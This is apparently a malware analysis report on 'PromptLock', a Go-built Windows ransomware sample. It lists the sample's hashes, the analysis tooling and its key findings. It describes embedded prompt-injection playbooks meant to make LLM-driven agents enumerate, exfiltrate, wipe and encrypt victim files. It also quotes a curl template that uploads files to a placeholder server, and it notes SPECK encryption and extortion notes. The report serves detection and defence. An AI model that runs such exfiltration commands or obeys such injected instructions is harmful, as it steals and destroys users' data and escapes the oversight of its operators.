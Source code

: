* Sample path: `/home/bigbudda/Downloads/challengues/1458b6dc98a878f237bfb3c3f354ea6e12d76e340cefe55d6a1c9c7eb64c9aee.exe`
* Hashes:

  * md5:    `f7cf07f2bf07cfc054ac909d8ae6223d`
  * sha1:   `161cdcdb46fb8a348aec609a86ff5823752065d2`
  * sha256: `1458b6dc98a878f237bfb3c3f354ea6e12d76e340cefe55d6a1c9c7eb64c9aee`
* Platform/Format: Windows PE (PE32+), amd64
* Subsystem: Windows CUI
* ImageBase: 0x0000000000400000
* EntryPoint (VMA): 0x0000000000478280 → trampoline into 0x00474960 (entry0)
* SizeOfImage: 0x00724000
* Characteristics: HIGH\_ENTROPY\_VA, DYNAMIC\_BASE, NX\_COMPAT, LargeAddressAware
* Timestamp: Wed Dec 31 19:00:00 1969 (typical placeholder for statically built Go binaries)

---

## Environment & Tooling

* Host OS: Debian GNU/Linux (Linux)
* Analysis window: 2025-08-29
* Tools:

  * FLOSS (strings; stack/tight/decoded)
  * capa 9.2.1 (with upstream rules + signatures; Vivisect extractor)
  * GNU objdump/strings 2.40
  * radare2 6.0.2 (entry, strings, quick XREFs)

---

## Executive Summary

PromptLock embeds a Lua runtime and leverages prompt-injection texts packaged inside the binary to convince LLM-powered automation to enumerate, exfiltrate, wipe, and encrypt victim data. It exposes clear operational strings (e.g., curl with `session_key`, target file logs, Ollama chat endpoints) and uses modern crypto/TLS via Go and wolfSSL. The combination of Lua (GopherLua), Go’s net/http, and unique prompt-injection templates provides strong anchors for signatures, network detection, and host-based prevention.

---

## Key Findings

* Go binary with embedded Lua (GopherLua 5.1, bit32): on-host scripting engine.
* Explicit prompt-injection playbooks aimed at LLM/agent tooling (codegen, validator, analysis wrappers).
* File exfil template: `curl -k -X POST "<server>" -F "session_key=<key>" -F "file=@<filename>"`.
* Orchestration artifacts: `target_file_list.log`, `target_file_info.log`, `target_file_summary.log`, `payloads.txt`, `scan.log`, `sysinfo_summary.txt`, `decryptor.txt`, `debug_conversations`.
* Secure deletion instructions: overwrite multiple times, then delete.
* Ransomware behavior: SPECK 64/128 in Lua (ECB), in-place overwrite (`rb+`), 8‑byte block processing.
* Note generation templates with cryptocurrency examples for extortion.

---